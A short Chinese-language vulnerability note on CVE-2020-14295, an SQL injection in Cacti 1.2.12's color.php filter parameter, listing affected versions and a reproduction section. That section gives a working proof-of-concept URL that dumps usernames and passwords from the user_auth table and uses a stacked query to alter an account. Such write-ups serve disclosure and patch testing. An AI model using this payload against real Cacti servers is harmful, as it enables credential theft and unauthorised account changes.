 # 

# Cacti SQL 注入漏洞 CVE-2020-14295

## 漏洞描述

Cacti 1.2.12 中 color.php 中存在 SQL注入漏洞，允许具有管理员权限的攻击者通过 filter 参数注入 SQL。因为产品接受堆积的查询，所以这可能导致远程命令执行。目前该漏洞 EXP 已公开。

参考链接：

- https://github.com/Cacti/cacti/issues/3622

## 漏洞影响

```
Cacti < 1.2.13
```

## 漏洞复现

poc：

```
/cacti/color.php?action=export&header=false&filter=')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+user_auth+set+username='sqli'+where+id=3;--+-
```


